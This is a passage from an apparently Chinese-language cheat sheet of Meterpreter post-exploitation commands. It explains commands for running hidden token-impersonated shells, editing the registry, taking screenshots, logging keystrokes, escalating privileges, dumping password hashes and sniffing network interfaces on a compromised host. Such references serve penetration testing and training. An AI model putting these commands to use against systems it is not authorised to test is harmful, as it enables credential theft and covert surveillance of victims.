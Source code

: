 shell

以所有可用令牌来运行一个交互的shell。

execute -f cmd.exe -i

执行cmd.exe命令并进行交互。

execute -f cmd.exe -i -t

以所有可用令牌来执行cmd命令。

execute -f cmd.exe -i -H -t

以所有可用令牌来执行cmd命令并隐藏该进程。

rev2self

回到控制目标主机的初始用户账户下。

reg command

在目标主机注册表中进行交互，创建，删除和查询等操作。

setdesktop number

切换到另一个用户界面（该功能基于那些用户已登录）。

screenshot

对目标主机的屏幕进行截图。

upload file

向目标主机上传文件。

download file

从目标主机下载文件。

keyscan_dump存储目标主机上或许的键盘记录。

getprivs

尽可能多的获取目标主机上的特权。

uietl enable keyboard/mouse

接管目标主机的键盘和鼠标。

background

将你当前的meterpreter shell转为后台执行。

hashdump

导出目标主机中的口令哈希值。

use sniffer

加载嗅探模块。

sniffer_interfaces

列出目标主机所有开放的网络接口。
